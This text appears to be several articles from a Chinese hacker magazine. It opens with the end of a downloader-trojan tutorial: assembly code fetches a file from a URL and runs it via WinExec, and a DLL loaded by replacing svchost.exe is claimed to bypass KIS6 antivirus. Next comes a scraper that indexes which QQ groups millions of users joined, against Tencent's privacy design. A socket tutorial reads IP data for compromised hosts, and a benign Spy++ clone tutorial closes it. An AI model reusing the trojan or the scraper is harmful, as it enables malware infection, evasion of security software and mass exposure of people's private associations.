getfuncaddr:
    push eax
    call GetProcAddress
    mov downfunc,eax
again:
    push 5000
    call Sleep
    push NULL
    push NULL
    push offset szPath
    push offset szURL
    push NULL
    ...
    call downfunc
    test eax,eax
    jnz again
    call exec
lExit:
    ret

down endp
exec proc
    invoke WinExec,offset szPath,1
    ret
exec endp

; 为引入表导出的函数
SecConfig proc
    xor eax,eax
    ret
SecConfig endp

End LibMain
```

在上面的代码中，我们的 DLL 必须导出一个函数，否则 svchost 会报找不到指定的要加载的 DLL；而测试的时候需要先停止 Windows 系统文件保护，然后替换 svchost.exe。重启后就会发现我们的小马已经成功下载文件，但是还有一些瑕疵有待改善，因为 Windows XP 下默认有多个 svchost，所以我们的 DLL 中的线程也运行了多次……如图3所示。



图3

至此，我们就已经成功地穿越了 KIS6，实现了下载者的功能。由于上面的代码我写得比较匆忙，错误纰漏在所难免，这里权当抛砖引玉，希望能够引起大家的思考，提出更好的思路。以上的代码如有任何问题，欢迎大家登录黑防的官方论坛，和我一起交流。

ID

适合读者：编程爱好者

前置知识：VC++

#### 编写自己的搜索引擎

### 查找用户QQ群

文/图 王炜/ww0830


现在上网越来越离不开搜索引擎了，Google、Baidu、Yahoo……大大地方便了我们从浩如烟海的网络信息中迅速找到需要的东西。只要输入关键字，它就会把带有关键信息的网页全部返回给我们。是不是觉得很神奇呢？其实，搜索引擎一点都不神秘，我们自己也可以很容易地编写出一个搜索引擎。

这次我们来编写一个我们实际关心的、而且能完成 Google、Baidu、腾讯都没有的功能——查询 QQ 用户加入了哪些群的搜索引擎。

腾讯出于安全和隐私的考虑，没有提供查询某人加入了哪些群的功能，但对用户来说就不是很方便了。下面我们就来完成这个搜索引擎。其主要功能就是输入一个 QQ 号码，返回该 QQ 号所加入的所有 QQ 群。

任何一个搜索引擎，无论是 Google、Baidu 还是我们自己做的引擎，基本都分为三个步骤：一是信息获取，二是建立索引，三是通过索引完成查询请求并返回结果。

对于群的用户信息放在哪里呢？我们随便打开一个群的信息进行查看，如果是公开的群，则可以看到全部的群用户信息，其网址是如下的形式：

`http://group.qq.com/cgi-bin/groupuserall?groupid=群的号码`

如图1所示，鼠标点在 QQ 头像上，就会给出用户的 QQ 号码。



图1

通过查看源代码，发现是 `title="QQ号码"` 的形式，那么我们的 Spider 就可以写出来了，用各个群号码访问对应的用户网页，再提取出所有 `title="` 字符后面的 QQ 号码即可。提取号码可以用多种方法，本文使用的是正则表达式的方法。

##### 获取信息

对于 Google 和 Baidu 来说，它们获取信息的方式是通过在网络上投放大量的网页蜘蛛（Spider）来实现的。网页蜘蛛提取出网页内容，并根据网页上的链接进入到下一层页面中，从而不断地提取。而对于我们这个搜索引擎来说，则是要获得群的用户信息。

```csharp
// 构造用户号码信息网页 URL
string url = "http://group.qq.com/cgi-bin/groupuserall?groupid=" + GroupID;

// 使用 WebClient 抓取网页内容
WebClient browser = new WebClient();
UTF8Encoding enc = new UTF8Encoding();
string strHTMLContents;

try
{
    // 获取网页内容，存储在 strHTMLContents 中
    strHTMLContents = enc.GetString(browser.DownloadData(url));
}
catch (WebException exp) // 如果出错，返回
{
    return;
}
```

```cpp
// 正则表达式提取 title=
string p3 = "title=\\"[0-9]+\\"";
Regex r = new Regex(p3, RegexOptions.IgnoreCase);
// 在 strHTMLContents 中提取出 QQ 号码
MatchCollection m = r.Matches(strHTMLContents);
// 得到群中的每个 QQ 号码，并输出
for (int i=0; i<m.Count; i++) {
    string x = m[i].Value;
    // title= 的长度为 6，从第七个字符到最后为 QQ 号码
    string strQQNumber = x.Substring(7, x.Length - 8);
    sw.WriteLine(strQQNumber);
}
```

上面的代码输入不同的 GroupID，就可以将该群所包括的用户 QQ 号码全部抓取下来了。

##### 建立索引

获得信息之后，就需要建立索引来方便查询了。搜索引擎都使用倒查表来建立索引，就是将抓取到的信息倒过来，把关键字建立成某种可以高效查询的数据结构，而在关键字存储位置存一些用户感兴趣的信息。

对 Google 和 Baidu 来说，索引的关键字就是英文单词和中文词组，而存储的信息就是这些词出现的网页、地址和位置，当用户搜索单词时，就返回出现这些词的网页和页面中的位置。

对应的，在我们的搜索引擎中，索引的关键字是 QQ 号码，而存储信息则是 QQ 号所加入的群号码。索引我们采用 hash_map 来建立，因为 long 是内置类型，所以我们用 vector 存储用户加入的 QQ 群，也可以保证效率，其主要的代码结构如下所示。

```cpp
struct QQMemberInfo // 用户对应的群信息
{
    vector<long> m_vGroupVec;
    // vector 存储用户加入的群号码
};

hash_map<unsigned long, QQMemberInfo> hMemberQQs;
// 索引，QQ 号码为关键字，对应加入的群信息
```

用于建立索引的主要代码和注释如下所示。

```cpp
struct QQMemberInfo // 用户对应的群信息
{
    vector<long> m_vGroupVec;
    // vector 存储用户加入的群号码
};

// main
int _tmain(int argc, _TCHAR* argv[])
{
    string strResultFileName = "";
    ...
}
```

```cpp
hash_map<unsigned long, QQMemberInfo> hMemberQQs;
// 索引，QQ 号码为关键字
long lGroupID;      // 群号
int nGroupNum;      // 群拥有的用户数目
unsigned long lQQ;  // QQ 号码

while (cin >> lGroupID) {
    cin >> nGroupNum;
    if (nGroupNum == 0) continue;
    for (int j=0; j<nGroupNum; j++) {
        cin >> lQQ;
        if (hMemberQQs.find(lQQ) != hMemberQQs.end()) {
            hash_map<unsigned long, QQMemberInfo>::iterator it = hMemberQQs.find(lQQ);
            it->second.m_vGroupVec.push_back(lGroupID);
        } else {
            QQMemberInfo qqInfo;
            qqInfo.m_vGroupVec.push_back(lGroupID);
            hMemberQQs[lQQ] = qqInfo;
        }
    }
}
```

##### 实现 QQ 加入群的查询

建立好索引后，主要工作就基本完成了，剩下的只要对用户输入的 QQ 号码在索引中进行查询，然后再输出对应的 QQ 所加入的哪些群即可。

```cpp
// 输入 QQ 号码，返回加入的群
while (1) {
    cout << "Please enter query QQ:" << endl;
    unsigned long lQuery;
    cin >> lQuery;
    if (hMemberQQs.find(lQuery) != hMemberQQs.end()) {
        hash_map<unsigned long, QQMemberInfo>::iterator it = hMemberQQs.find(lQuery);
        cout << "Has Group Number: " << it->second.m_vGroupVec.size() << endl;
        vector<long>::iterator iter = it->second.m_vGroupVec.begin();
        for (iter; iter != it->second.m_vGroupVec.end(); iter++)
        {
            cout << (*iter) << endl;
        }
    }
    else
    // 如果索引中没有该号码，输出不在索引中
    {
        cout << lQuery << " is not in the Index!" << endl;
    }
}
```

叮，哈哈！最后说一句，抓取的信息越全面，查询的结果就越全面，这与 Google 和 Baidu 是一个道理。我自己建立了 1 千多万用户的索引，已经耗费了 800 多 M 的内存了，如果机器更好点，建立更大的索引，就可以查得更全了。



所有代码完成后，最后的效果如图2所示。现在各位小编、老编们所加入的群数量和号码我都知道。

适合读者：编程爱好者、工具爱好者  
前置知识：C语言

#### 套接字编程实现网页内容的获取

文/图 楚若[S.U.S]


在黑防2006年第4期《FTP动态更新解决肉鸡IP问题》一文中，我介绍了如何通过编程上传IP信息到Web空间的方法，本文则继续介绍如何通过套接字编程读取这个文件中的IP信息。另外，在同年第9期《POST提交实现ASP网站收信》一文中，我介绍了HTTP协议相关知识与如何用套接字从底层实现POST请求。而在本文中，我们读取网页内容则使用了HTTP请求消息中另一种常见方式——GET方法。可能会有读者问，为什么不用URLDownloadToFile呢？那样不是很简单？正如那篇文章中所述的，“本文的主要目的还在于介绍点HTTP协议相关知识和提高大家的网络编程能力”。

首先架设好我们的试验环境。我们在本地建个Web服务器，在根目录中新建一个 ip.jpg 文件，其内容为“[192.168.1.101:8080]”。显然，我们要请求的文件为 http://127.0.0.1/ip.jpg，内容为“[192.168.1.101:8080]”。

接下来了解一下原理。首先，我们该如何区分 POST 和 GET 方法呢？我们可以简单地理解为 GET 是从服务器上获取数据，POST 是向服务器传送数据。其次，使用 GET 方法下载文件的基本过程是：连接主机、发送请求头、接收并分析回应头、接收文件数据。典型的 GET 方法的 HTTP 请求头和 Web 服务器的回应头如图1所示。



请求头中第一行指明了 GET 方法、请求的文件以及使用的 HTTP 协议版本。第三行描述了接受的数据类型，“*/*”表示接收所有的数据类型；第五行将连接设置为一直保持连接。最后要加上一个空行，表示请求头结束。回应头中第二行表示 Web 服务器类型，第七行 Content-Length 指示了请求文件的大小。

下面我们就用 C 语言来实现这个程序，也帮助大家进一步熟悉 Socket 编程流程，具体的代码实现如下所示：

```cpp
/* 初始化 Socket 版本 */
WSADATA wsa;
WSAStartup(MAKEWORD(2,2), &wsa);
/* 选择主机信息 */
struct sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(80);
sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
/* 创建 TCP socket */
SOCKET sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
/* 连接到服务器 */
connect(sClient, (sockaddr*)&sin, sizeof(sin));
/* 发送 HTTP 消息头 */
char request[] =
"GET /ip.jpg HTTP/1.0\r\n"
"host:127.0.0.1\r\n"
"accept:*/*\r\n\r\n";
send(sClient, request, strlen(request), 0);
/* 处理响应头 */
char rec[256];
while(recvline(sClient, rec)) {
    if (strlen(rec) <= 0) break;
}

if (strlen(rec) <= 0)
    break;
/* 获取文件内容 */
char* data = new char[256];
memset(data,0,256);
recv(sClient,data,256,0);
closesocket(sClient);
WSACleanup();
/* 打印数据 */
printf("%s\r\n", data);
```

上面我提供的代码仅做演示，所以没做任何的出错处理函数。代码中的 recvline() 函数用来读取一行回应头，具体可参看本文所附的源代码。正确编译后，我们就可以读取 ip.jpg 中的数据了，如图2所示。



图2

最后，我希望本文能对大家解读 IP 更新和理解 HTTP 协议以及提高网络编程有所帮助。

适合读者：编程爱好者、工具爱好者  
前置知识：VC++

## VC轻松打造 Spy++

文/图 阿珈境界



用 Visual Studio 搞开发的朋友对 Spy++ 这个工具一定不陌生。它可以分析窗体结构、进程和窗口消息，对于开发工作有很大的辅助作用。我们最常使用它的窗口查找功能，按 Ctrl+F 调出其查找窗口，拖动探测器的指针到指定窗口/控件上释放即可。下面，我就和大家一起，用 VC 打造一个属于自己的 Spy++。

打开 VC 集成开发环境，建立一个基于对话框的工程。我们把这个工程取名为 SpyXX。在窗体中画上一个图片框控件（Picture）、一个静态文本控件（Static）、两个复选框控件（Check Box）和一个选项卡控件（Tab Control），界面设计如图1所示。

探测器的制作需要两个图标文件（.ico）和一个鼠标光标文件（.cur），分别用于正常状态下的显示、鼠标拖出时的显示以及拖出时的鼠标指针。



图1

（右栏续文）一个鼠标光标文件（.cur），分别用于正常状态下的显示、鼠标拖出时的显示以及拖出时的鼠标指针……

项卡控件定义5个标签页，分别为“常规”、“样式”、“类”、“窗口”和“消息”。每个标签页的内容用一个属性页（Property Page）对话框来制作。下面，我们按照顺序详述一下整个开发过程。

##### 探测器的制作

探测器用一个图片框控件来显示，正常状态下显示一幅有靶的图标。当鼠标在上面按下时，显示内容立刻换为另一幅无靶的图标，同时鼠标指针变为靶状。这样，就给人一种靶心被拖出去的感觉了。通过上面的叙述，我们了解到图片框需要响应 WM_LBUTTONDOWN 消息和 WM_LBUTTONUP 消息。而图片框在正常状态下只响应鼠标单击消息 BN_CLICK，所以，我们要通过子类化来响应上述两个消息。

把图片框的 ID 设为 IDC_PIC，并选中其 Notify 属性（否则不响应消息）。依次点击菜单“Insert -> New Class”，Class type 选择 MFC Class，类名取为 CMyPic，基类为 CStatic。添加 CSpyXXDlg 类的私有成员变量 CMyPic m_pic，在对话框的初始化过程中将其与图片框关联，代码如下所示。

```cpp
BOOL CSpyXXDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    m_pic.SubclassDlgItem(IDC_PIC,this);
    ......
    return TRUE;
}
```

这样，在 CMyPic 类中，我们就可以响应鼠标左键按下和弹起的消息了。按 Ctrl+W 打开 Class Wizard，选择 Message Maps 标签页，在 Class name 下拉列表中选择 CMyPic。从 Messages 列表中分别增加 WM_LBUTTONDOWN 和 WM_LBUTTONUP 消息，并接受其缺省函数名 OnLButtonDown 和 OnLButtonUp。图标交换和鼠标光标交换的代码如下。

```cpp
void CMyPic::OnLButtonDown(UINT nFlags, CPoint point)
{
    SetCapture();
    HCURSOR hc = LoadCursor(AfxGetApp()->m_hInstance,
        MAKEINTRESOURCE(IDC_CURSOR1));
    ::SetCursor(hc);
    HICON hicon2 = LoadIcon(AfxGetApp()->m_hInstance,
        MAKEINTRESOURCE(IDI_ICON2));
    this->SetIcon(hicon2);
    CStatic::OnLButtonDown(nFlags, point);
}
```

```cpp
void CMyPic::OnLButtonUp(UINT nFlags, CPoint point)
{
    ReleaseCapture();
    HICON hicon1 = LoadIcon(AfxGetApp()->m_hInstance,
        MAKEINTRESOURCE(IDI_ICON1));
    this->SetIcon(hicon1);
    CStatic::OnLButtonUp(nFlags, point);
}
```

至此，探测器外观就制作完成了。我们可以先运行一下，把鼠标按下后拖动试试。下面我们来实现其功能：获取窗口句柄。根据鼠标位置来确定窗口需要用到 API 函数 GetCursorPos 和 WindowFromPoint。此外，我们还想做到像抓图程序那样，鼠标移动到的地方，窗口四周会出现闪烁的矩形。这一点，我们用定时器来实现。定时器设在 CSpyXXDlg 类中，但要由 CMyPic 中的 OnLButtonUp 来启动。所以，我们定义一个全局变量 g_hMe 将 CSpyXXDlg 的实例句柄保存起来。同时，被选取的窗口句柄也涉及到在多个标签页中显示，所以也用全局变量 g_hWnd 将之保存。其余的用于显示标签页的属性页对话框句柄分别用 g_hPage0、g_hPage1、g_hPage2、g_hPage3 和 g_hPage4 来保存。这里，大家也可以建立一个类去管理这些全局变量。启动定时器的代码如下。

```cpp
FromHandle(g_hMe)->SetTimer(1,600,NULL);
```

在定时器中，我们要实现桌面范围内的矩形绘制，其实现代码如下。

```cpp
POINT pnt;
RECT rc;
HWND DeskHwnd = ::GetDesktopWindow();
HDC DeskDC = ::GetWindowDC(DeskHwnd);
int oldRop2 = SetROP2(DeskDC, 10);
::GetCursorPos(&pnt);
HWND UrlHwnd = ::WindowFromPoint(pnt);
g_hWnd = UrlHwnd;
::GetWindowRect(g_hWnd, &rc);
if (rc.left < 0) rc.left = 0;
if (rc.top < 0) rc.top = 0;
HPEN newPen = ::CreatePen(0, 3, 0);
HGDIOBJ oldPen = ::SelectObject(DeskDC, newPen);
::Rectangle(DeskDC, rc.left, rc.top, rc.right, rc.bottom);
Sleep(400);
::Rectangle(DeskDC, rc.left, rc.top, rc.right, rc.bottom);
::SetROP2(DeskDC, oldRop2);
::SelectObject(DeskDC, oldPen);
::DeleteObject(newPen);
::ReleaseDC(DeskHwnd, DeskDC);
DeskDC = NULL;
```

到此，探测器功能全部完成。

##### 两个复选框

第一个复选框是“总在最上面”，其代码如下。

```cpp
void CSpyXXDlg::OnChktop()
{
    int nTop=((CButton*)GetDlgItem(IDC_CHKTOP))->GetCheck();
    if(nTop==1)
        ::SetWindowPos(m_hWnd,HWND_TOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
    else
        ::SetWindowPos(m_hWnd,HWND_NOTOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
}
```

第二个复选框是“16进制”。因为其值影响到多个属性页对话框的内容，所以我们也用一个全局变量 g_nHex 来保存它，代码如下所示。

```cpp
void CSpyXXDlg::OnChkhex()
{
    g_nHex=((CButton*)GetDlgItem(IDC_CHKHEX))->GetCheck();
}
```

这里，我们还建立了一个全局函数 Display，用来输出 16 进制和 10 进制时的句柄值。

```cpp
CString Display(int nVal)
{
    CString str;
    if(g_nHex==1){
        str.Format("%x",nVal);
        str.MakeUpper();
    }else
        str.Format("%d",nVal);
    return str;
}
```

##### 选项卡控件

选项卡控件中，5个标签页对应5个属性页对话框，与它们关联的类分别取名为 CPage0、CPage1、CPage2、CPage3 和 CPage4。在 CSpyXXDlg 中建立私有成员变量 m_page0、m_page1、m_page2、m_page3 和 m_page4。在其初始化过程中建立这5个属性页对话框。

```cpp
m_page0.Create(IDD_OLE_PROPPAGE_LARGE,GetDlgItem(IDC_TAB1));
m_page1.Create(IDD_OLE_PROPPAGE_LARGE1,GetDlgItem(IDC_TAB1));
m_page2.Create(IDD_OLE_PROPPAGE_LARGE2,GetDlgItem(IDC_TAB1));
m_page3.Create(IDD_OLE_PROPPAGE_LARGE3,GetDlgItem(IDC_TAB1));
m_page4.Create(IDD_OLE_PROPPAGE_LARGE4,GetDlgItem(IDC_TAB1));
GetDlgItem(IDC_TAB1);
CRect rs;
m_tab.GetClientRect(rs);
rs.top+=20; rs.bottom-=3; rs.left+=3; rs.right-=3;
m_page0.MoveWindow(rs);
m_page1.MoveWindow(rs);
m_page2.MoveWindow(rs);
m_page3.MoveWindow(rs);
m_page4.MoveWindow(rs);
m_page0.ShowWindow(SW_SHOW);
m_tab.SetCurSel(0);
```

然后在选项卡消息 TCN_SELCHANGE 响应函数中控制它们的显示。

```cpp
void CSpyXXDlg::OnSelchangeTab1(NMHDR* pNMHDR, LRESULT* pResult)
{
    int i=m_tab.GetCurSel();
    switch(i){
    case 0:
        m_page0.ShowWindow(SW_SHOW);
        m_page1.ShowWindow(SW_HIDE);
        m_page2.ShowWindow(SW_HIDE);
        m_page3.ShowWindow(SW_HIDE);
        m_page4.ShowWindow(SW_HIDE);
        break;
    case 1:
        m_page0.ShowWindow(SW_HIDE);
        m_page1.ShowWindow(SW_SHOW);
        m_page2.ShowWindow(SW_HIDE);
        m_page3.ShowWindow(SW_HIDE);
        m_page4.ShowWindow(SW_HIDE);
        break;
    case 2:
        ...
    default:
        break;
    }
    *pResult = 0;
}
```

##### 常规标签页

常规标签页负责显示窗口句柄、窗口类名、标题文本、窗口矩形、窗口 ID、进程 ID 和程序路径。控制其显示或改变应在 CMyPic 的 WM_LBUTTONUP 响应函数中进行。实现代码如下。

```cpp
((CPage0*)FromHandle(g_hPage0))->m_editHWND.SetWindowText(Display((int)g_hWnd));
char strClass[200]="\0";
::GetClassName(g_hWnd,strClass,200);
((CPage0*)FromHandle(g_hPage0))->m_editCLASS.SetWindowText(strClass);
((CPage2*)FromHandle(g_hPage2))->SetDlgItemText(IDC_EDITCLASSNAME, strClass);
char strTitle[200]={0};
GetWindowText(g_hWnd, strTitle, 200);
((CPage0*)FromHandle(g_hPage0))->m_editTITLE.SetWindowText(strTitle);
long iWNDID=GetWindowLong(g_hWnd, GWL_ID);
((CPage0*)FromHandle(g_hPage0))->m_editWNDID.SetWindowText(Display((int)iWNDID));
